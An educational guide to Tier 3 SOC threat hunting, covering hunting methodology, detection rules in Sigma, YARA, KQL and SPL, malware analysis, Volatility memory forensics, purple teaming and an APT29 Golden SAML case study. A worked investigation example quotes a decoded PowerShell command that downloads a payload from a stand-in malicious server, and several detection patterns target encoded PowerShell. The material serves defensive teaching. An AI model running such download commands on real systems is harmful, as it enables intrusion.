

Tier 3 analysts — often called Threat Hunters — operate at the highest level of SOC technical capability. Unlike Tier 1 (who react to alerts) and Tier 2 (who investigate escalated incidents), Tier 3 proactively searches for threats that evaded existing detection and handles the most complex investigations.

According to the **SANS 2024 Threat Hunting Survey**, organisations with mature hunting programs detect breaches an average of **73 days faster** than those relying solely on alert-based detection. The median dwell time for organisations with active hunting programs is **11 days** vs. **84 days** for those without.

## Reactive vs. Proactive: The T3 Mindset

The fundamental shift from T2 to T3 is moving from *reacting to alerts* to *proactively searching for threats*:

```yaml
Reactive (T1/T2):                 Proactive (T3):
  └─ Wait for alerts                └─ Hunt without alerts
  └─ Investigate known IoCs          └─ Discover unknown threats
  └─ Follow playbooks                └─ Create new hypotheses
  └─ Respond to incidents            └─ Prevent incidents through detection
  └─ Short time horizon (hours)      └─ Long time horizon (weeks)
  └─ Tool-focused                    └─ Data-focused
  └─ "What happened?"                └─ "What is happening?"
```

## Threat Hunting Methodology

Threat hunting follows a structured, hypothesis-driven process:

### The Hunting Loop



### Step 1: Create a Hypothesis

Hypotheses are based on threat intelligence, new CVEs, changes in adversary behavior, or internal risk assessments:

```yaml
Hypothesis Sources:
  └─ Threat Intelligence: New APT group TTPs, updated MITRE ATT&CK techniques,
         industry-specific threat reports, zero-day disclosures
  └─ Internal Risk: New technology deployment (cloud migration, new SaaS),
         high-value asset exposure, recent mergers/acquisitions
  └─ Data-Driven: Analytics-driven (unusual behavior detected by ML/baseline),
         baseline deviations, peer comparison anomalies
  └─ Regulatory: New compliance requirements, audit findings, penetration test results
  └─ Incident Feedback: Gaps identified in post-incident reviews,
         missed detection opportunities

Example Hypotheses:
  H1: "Attackers are likely targeting our newly deployed AWS environment
       using SSRF attacks against the metadata service (IMDSv1)"
  H2: "Recent Log4j exploitation attempts may have succeeded on unpatched
       internal Java applications"
  H3: "Our finance team is being targeted by BEC campaigns using
       MFA fatigue attacks"
  H4: "Living-off-the-land binaries are being used by an attacker who
       evaded our signature-based detections"
```

### Step 2: Collect Data

Hunting requires access to high-fidelity data sources:

```yaml
Essential Hunting Data Sources:
  └─ EDR Telemetry (highest value):
         Process creation (parent-child relationships, command-line arguments)
         Network connections (process-to-IP mapping)
         File creation/modification/deletion events
         Registry changes
         DLL load events
  └─ Network Telemetry:
         DNS query logs (full query resolution, not just blocked domains)
         Proxy logs (URL-level visibility for HTTP/HTTPS)
         NetFlow/IPFIX (flow-level network visibility)
         TLS certificate metadata (JA3/S, SNI)
  └─ Authentication Logs:
         Windows Event Logs (4624/4625/4648/4768/4769)
         VPN authentication logs
         Cloud IAM logs (AWS CloudTrail, Azure Sign-in Logs)
         MFA authentication logs
  └─ Cloud Telemetry:
         Cloud API call logs
         Object storage access logs (S3 access logs)
         Container orchestration logs (Kubernetes audit)
         Serverless function invocation logs
  └─ Email Telemetry:
         Mail flow logs (message trace)
         Mailbox audit logs (access, rule creation)
         Phishing detection logs (sandbox results, URL click logs)
```

### Step 3: Apply Analytics

Hunting analytics range from simple to advanced:

```yaml
Analytic Techniques (increasing sophistication):
  └─ Stack Counting:
         Count occurrences of an attribute (e.g., process name, network connection)
         Sort by frequency — outliers may indicate malicious activity
         Example: "List all processes running with encoded PowerShell arguments,
                   sorted by frequency. Look for rare combinations."
  
  └─ Baseline Comparison:
         Establish normal behavior over 30-60 days
         Alert on deviations beyond 3 standard deviations
         Example: "User jdoe has never logged in outside business hours.
                   Today, 3 logins at 2 AM from a new IP."
  
  └─ Frequency Analysis:
         Track event rates over time
         Detect spikes that indicate scanning, beaconing, data staging
         Example: "DNS query rate for host SALES-05 spiked from 2/min to 200/min."
  
  └─ Clustering:
         Group similar events and look for clusters
         Find patterns across apparently unrelated events
         Example: "Cluster all failed logins by source IP. Group of 5 IPs
                   from same /24 subnet targeting the same account."
  
  └─ Graph Analysis:
         Map relationships between entities (users, hosts, IPs)
         Identify unexpected connections
         Example: "User jdoe never connects to server SQL-01 — why is there
                   a WinRM connection from jdoe's workstation to SQL-01?"
  
  └─ ML/Statistical Analysis (advanced):
         Unsupervised learning for anomaly detection
         User and Entity Behavior Analytics (UEBA)
         Example: "Behavioural baseline established for all 5000 users.
                   jdoe's behaviour today is 4.2 standard deviations from baseline."
```

### Step 4: Investigate Anomalies

When analytics find an anomaly, T3 performs deep investigation:

```
HYPOTHESIS: "Living-off-the-land binaries used for lateral movement"
DATA COLLECTED: EDR process telemetry from all Windows servers (last 30 days)

ANALYTIC: Stack count of LOLBIN executions by host
Results:
  └─ wmic.exe executions: 95% on IT-admin jump box (expected)
  └─ wmic.exe executions on SQL-FIN-01: 3 events (all at 2 AM, user: svc_backup)
  
INVESTIGATION:
  └─ Check svc_backup account: Service account, scheduled task runs at 2 AM — benign
  
  └─ powershell.exe with -EncodedCommand: 7 events on WEB-03 (web server)
     └─ Expected: Web servers should NOT run PowerShell
     └─ Check process tree: w3wp.exe (IIS) spawned powershell.exe
     └─ Decode base64: "Invoke-WebRequest -Uri hxxp://malicious-server/payload.ps1"
     └─ ESCALATE: True Positive — web shell executing PowerShell

RESULT:
  └─ Incident opened: Web server compromise via unpatched IIS vulnerability
  └─ Detection rule created: Sigma rule for IIS-to-PowerShell process chain
  └─ Hunt converted to permanent detection
```

## Detection Engineering

One of the most important T3 outputs is detection engineering — creating new detection rules that find the threats hunters discover:

### Sigma Rules

Sigma is the standard format for writing detection rules:

```yaml
title: Suspicious WMI Lateral Movement
id: a1b2c3d4-e5f6-7890-abcd-ef1234567890
status: experimental
description: Detects potential lateral movement using WMI
author: T3 SOC Analyst
date: 2026-03-15
tags:
  - attack.lateral_movement
  - attack.t1047
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\wmiprvse.exe'
    ParentImage|endswith: '\svchost.exe'
  exclusion:
    CommandLine|contains: 'Win32_Process'  # Common management tool
  condition: selection and not exclusion
falsepositives:
  - Legitimate WMI management tools
level: medium
```

### YARA Rules

YARA rules identify malware through pattern matching:

```yara
rule Emotet_Loader_2026 {
    meta:
        description = "Detects Emotet loader variant observed in Q1 2026"
        author = "T3 SOC Team"
        date = "2026-01-15"
        hash = "a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6"
    strings:
        $s1 = "rundll32.exe" wide ascii
        $s2 = "AppData\\Local\\Temp" wide ascii
        $s3 = { 8B 45 08 85 C0 74 0F 8B 4D 0C 89 01 8B 45 08 }  // unique byte sequence
        $s4 = "powershell -enc " wide ascii
        $s5 = "http" wide ascii
    condition:
        3 of ($s*) and filesize < 500KB
}
```

### KQL Queries (Azure Sentinel / Microsoft Defender)

```kql
// Hunt: Remote PowerShell execution from non-admin workstations
let target_workstations = dynamic(["SALES-01", "SALES-02", "SALES-03", "HR-01"]);
DeviceProcessEvents
| where Timestamp > ago(14d)
| where DeviceName in (target_workstations)
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine has_any ("-EncodedCommand", "-enc", "Invoke-Command", "Invoke-Expression")
| where InitiatingProcessFileName != "explorer.exe"  // Not user-initiated
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

### Splunk SPL (Search Processing Language)

```
index=windows EventCode=4688 
| search NewProcessName=powershell.exe AND CommandLine=*-enc*
| stats count by ComputerName, UserName
| where count > 3
| eval severity=if(count>10, "critical", "high")
| sort - count
```

## Malware Reverse Engineering

T3 analysts often need to analyze malware samples that evaded automated sandboxes:

### Static Analysis

```yaml
Static Analysis Workflow:
  1. File Identification:
     └─ file sample.exe (file type)
     └─ detect-it-easy (DIE) — packer/compiler detection
     └─ Get-FileHash -Algorithm SHA256 (get hash for IoC DB)
  
  2. Extract Indicators:
     └─ strings sample.exe | sort (extract readable strings)
     └─ pecheck sample.exe or pev (PE header analysis)
     └─ floss sample.exe (FireEye's enhanced strings — extracts obfuscated strings)
  
  3. Analyze PE Structure:
     └─ Import Table: What Windows APIs does it call?
        (URLDownloadToFile, CreateProcess, VirtualAlloc → likely malware)
     └─ Export Table: What functions does it export?
     └─ Sections: .text, .data, .rdata — unusual section names flag packing
     └─ Compilation timestamp: Faked? In the future? From 1992?
  
  4. Check Against Sandboxes:
     └─ VirusTotal: Upload hash, check detection ratio
     └─ Hybrid Analysis: Behavioral report
     └─ ANY.RUN: Interactive sandbox execution
     └─ Joe Sandbox: Deep behavioral analysis
```

### Dynamic Analysis

```yaml
Dynamic Analysis Setup:
  └─ REMnux (Linux analysis VM) or FLARE VM (Windows analysis VM)
  └─ INetSim (fake internet services — prevents actual C2)
  └─ FakeDNS (redirects all DNS to local)
  └─ Process Monitor (procmon) — file/registry/process activity
  └─ Process Explorer (procexp) — process tree, handles, DLLs
  └─ API Monitor — API call tracking
  └─ Wireshark — network traffic (should be isolated network)
  └─ Regshot — registry comparison (before/after execution)

Analysis Steps:
  1. Snapshot clean state
  2. Start monitoring tools (procmon, Wireshark, API Monitor)
  3. Execute sample
  4. Monitor for 2-5 minutes (longer for time-bombed malware)
  5. Stop monitoring tools
  6. Compare registry/filesystem with Regshot
  7. Analyze network captures for C2 patterns
  8. Extract IoCs (C2 IPs, URLs, registry persistence, created files)

Safety Rules:
  └─ NEVER execute malware on a networked system
  └─ NEVER execute malware on a system without snapshot/backup
  └─ ALWAYS use isolated VM with host-only networking
  └─ ALWAYS use separate analysis VMs (one per sample)
  └─ DISABLE shared folders, clipboard, and drag-drop
```

### Memory Forensics with Volatility 3

```bash
# Get memory image info
volatility -f memory.dump windows.info

# List running processes
volatility -f memory.dump windows.pslist
volatility -f memory.dump windows.psscan  # (including hidden processes)
volatility -f memory.dump windows.pstree   # (process tree)

# Check network connections
volatility -f memory.dump windows.netscan

# Check loaded DLLs
volatility -f memory.dump windows.dlllist --pid 1234

# Extract command lines
volatility -f memory.dump windows.cmdline

# Check for injected code
volatility -f memory.dump windows.malfind

# Extract registry hives
volatility -f memory.dump windows.dumpfiles --filter REGISTRY

# Check for API hooks
volatility -f memory.dump windows.ssdt  # System Service Descriptor Table
```

## Hunting at Scale with Velociraptor

Velociraptor is an open-source endpoint visibility and hunting tool:

```yaml
Velociraptor Key Capabilities:
  └─ Live Hunting: Deploy VQL (Velociraptor Query Language) queries across all endpoints
  └─ Collection: Collect files, registry keys, event logs, processes from 1000s of endpoints
  └─ Monitoring: Real-time event monitoring (process creation, network connections)
  └─ Remediation: Kill processes, delete files, collect evidence remotely

Example VQL Hunt — Find Unusual Scheduled Tasks:
  SELECT * FROM Artifact.Windows.System.ScheduledTasks()
  WHERE TaskName NOT LIKE '%Microsoft%'
    AND TaskName NOT LIKE '%Google%'
    AND TaskName NOT LIKE '%Adobe%'
    AND TaskName NOT LIKE '%Mozilla%'
    AND TaskName NOT LIKE '%Apple%'
    AND TaskName NOT LIKE '%Dropbox%'
    AND TaskName NOT ~ '^\{[A-F0-9-]+\}$'
    AND (TaskActions =~ 'powershell' OR TaskActions =~ 'cmd')

Example VQL Hunt — Find Process Injection:
  SELECT Pid, Ppid, Name, Exe, CommandLine 
  FROM Artifact.Windows.Detection.ProcessInjection()
  WHERE Hit = True
```

## Purple Team: Bridging Red and Blue

T3 analysts often participate in purple team exercises — collaborative testing with the red team:

```yaml
Purple Team Exercise Cycle:
  1. Select Scenario: Based on threat intel, recent incidents, or red team feedback
     Example: "Simulate BlackCat ransomware affiliate behavior"
  
  2. Red Team Executes: Red team performs the attack technique
     Example: "Deploy Atera agent via phishing, establish C2, move laterally via PsExec"
  
  3. Detection Test: Does the SOC detect the activity?
     └─ Alerted? → Note detection time and quality
     └─ Not alerted? → Detection gap identified
  
  4. Blue Team Adjusts: T3 creates new detection rules based on gaps found
     Example: "Write Sigma rule for Atera agent installation (unusual RMM tool)"
  
  5. Re-Test: Red team re-runs the technique
     └─ Now detected? → Exercise complete
     └─ Still not detected? → Refine detection
  
  6. Document: Exercise report with findings, new detections, tuning changes
```

## Threat Intelligence Integration

T3 operationalizes threat intelligence to drive hunting:

```yaml
CTI Integration Workflow:
  1. Receive Intel:
     └─ MISP events from sharing communities
     └─ ISAC alerts (FS-ISAC, Healthcare ISAC, etc.)
     └─ Vendor intel feeds (Recorded Future, CrowdStrike, Mandiant)
     └─ Open-source intel (ransomware blogs, Telegram channels, Twitter)
  
  2. Triage Intel:
     └─ Relevance: Does this apply to our industry/tech stack?
     └─ Urgency: Active exploitation vs. theoretical?
     └─ Confidence: High (confirmed) vs. Medium (reported) vs. Low (uncorroborated)?
  
  3. Convert to Detection:
     └─ Create Sigma/YARA rules
     └─ Update SIEM correlation rules
     └─ Block IoCs at perimeter (firewall, proxy, DNS sinkhole)
     └─ Enrich threat intelligence feeds with new data
  
  4. Hunt for Gaps:
     └─ "The intel says group X uses technique Y. Did we see technique Y?"
     └─ "CVE-2026-XXXX has proof-of-concept released. Is anyone exploiting it in our environment?"
     └─ "Ransomware group Z is targeting our industry. Do we have any pre-ransom indicators?"
  
  5. Feedback:
     └─ Share findings back to CTI team
     └─ Report any confirmed intel matches
     └─ Publish internal threat briefs
```

## Real Case: Proactive Hunt Discovers APT29

```
Situation:
  └─ Threat intel report: APT29 (Cozy Bear, Russian SVR) targeting cloud environments
  └─ Technique: Golden SAML — forging SAML tokens to access cloud apps without MFA
  └─ Hypothesis: If APT29 targets us, they would gain access to our identity provider
                and forge tokens for cloud access

Hunt Execution:
  Week 1 — Baseline:
    └─ Collected all Azure AD sign-in logs for 90 days
    └─ Established baseline: 98% of sign-ins have MFA claim = true
    └─ Identified 2% without MFA = service principals (expected)

  Week 2 — Anomaly Detection:
    └─ Clustered sign-ins by token issuer
    └─ Found 47 sign-ins from "SAML issuer: adfs.company.com" (normal — ADFS)
    └─ Found 12 sign-ins from "SAML issuer: adfs.company.com" with no MFA claim
       → Expected: ADFS always requires MFA for external access
    └─ Deep dive: These 12 sign-ins came from IP range not owned by company
       → IP geolocation: Russia
    └─ Check ADFS logs: No corresponding authentication event
       → SAML tokens were FORGED, not issued by ADFS

Result:
  └─ Confirmed: APT29 had compromised ADFS signing certificate
  └─ Attacker had access to Office 365, AWS, and Salesforce without MFA
  └─ Dwell time: Estimated 4-6 months
  └─ Immediate action: Rotate ADFS certificate, reset all cloud session tokens
  └─ Detection created: Sign-in log anomaly detection (MFA claim missing + unusual issuer)
  └─ Industry impact: This hunt methodology was published and adopted by 20+ organizations

Key Takeaway: This threat was detected by PROACTIVE HUNTING, not by any alert.
  No SIEM rule would have caught this — it was a completely new technique detected
  through hypothesis-driven analysis of baseline behavior.
```

## T3 Metrics

| Metric | Definition | Target |
|--------|------------|--------|
| **Hypotheses Tested** | Number of distinct hunting hypotheses per sprint | 2-5 per week |
| **Hunt-to-Detection Rate** | % of hunts that yield new detection rules | > 30% |
| **Detection Rule Quality** | % of new rules that fire accurately (FP rate < 20%) | > 80% |
| **Dwell Time Reduction** | Change in average attacker dwell time quarter-over-quarter | -10% QoQ |
| **Hunts Validated by Incidents** | Number of hunts that find real (previously unknown) threats | 1-3 per quarter |
| **Threat Intel Actioned** | Intel reports converted to detections within 48 hours | > 90% |
| **Purple Team Exercises** | Collaborative detection tests per quarter | 2-4 per quarter |

## Key Takeaways

- Threat hunting is hypothesis-driven, not alert-driven — the core T3 skill is asking "what might be evading our detection?"
- The hunting loop (Hypothesis → Data → Analytics → Investigate → Detect) is a continuous cycle, not a one-off activity
- Hunting analytics range from simple (stack counting, baseline comparison) to advanced (ML, graph analysis, UEBA)
- Detection engineering (Sigma, YARA, SIEM rules) is the primary T3 output — turning hunts into permanent detections
- Malware reverse engineering (static and dynamic analysis) enables T3 to understand novel threats and extract IoCs
- Memory forensics with Volatility 3 is essential for detecting fileless malware, process injection, and kernel-level threats
- Velociraptor enables hunting at scale — query thousands of endpoints with a single VQL statement
- Purple team exercises validate detection coverage through controlled attacker simulations
- Threat intelligence operationalization converts raw intel into actionable detections within hours
- The APT29 Golden SAML case demonstrates that proactive hunting catches what no alert rule would ever find
- T3 metrics focus on proactive value: hypotheses tested, detections created, dwell time reduced, intel actioned
- T3 is a terminal IC role — career progression leads to Security Architect, Detection Engineering Lead, DFIR Consultant, or CISO
